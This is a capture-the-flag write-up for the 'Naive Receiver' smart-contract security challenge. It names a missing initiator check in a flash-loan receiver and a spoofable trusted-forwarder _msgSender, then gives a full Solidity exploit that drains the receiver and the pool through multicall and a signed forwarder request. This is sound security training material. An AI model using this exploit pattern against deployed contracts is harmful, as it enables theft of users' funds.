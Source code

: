 # 2. Naive-receiver

The exploits used in this level are:

## ERC-3156 Flash loans

- In the receiver contract we have no check for the initiator address
- https://www.rareskills.io/post/erc-3156

## Access Control error

```solidity
if (msg.sender == trustedForwarder && msg.data.length >= 20) {
            return address(bytes20(msg.data[msg.data.length - 20:]));
        } else {
            return super._msgSender();
        }
```

## Other useful info for this level: EIP-712

- https://www.cyfrin.io/blog/understanding-ethereum-signature-standards-eip-191-eip-712

## Solution

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    bytes[] memory callDatas = new bytes[](11);

    // Encode 10 flash loan calls to drain the receiver
    for (uint256 i = 0; i < 10; i++) {
        callDatas[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, bytes("")));
    }

    // Encode withdraw call to drain the pool
    callDatas[10] = abi.encodePacked(
        abi.encodeCall(NaiveReceiverPool.withdraw, (WETH_IN_POOL + WETH_IN_RECEIVER, payable(recovery))),
        bytes32(uint256(uint160(deployer)))
    );

    bytes memory multicallData = abi.encodeCall(pool.multicall, (callDatas));

    BasicForwarder.Request memory request = BasicForwarder.Request({
        from: player,
        target: address(pool),
        value: 0,
        gas: gasleft(),
        nonce: forwarder.nonces(player),
        deadline: block.timestamp + 1 days,
        data: multicallData
    });

    bytes32 hashedRequest =
        keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(request)));

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, hashedRequest);
    bytes memory signature = abi.encodePacked(r, s, v);

    forwarder.execute(request, signature);
}
```
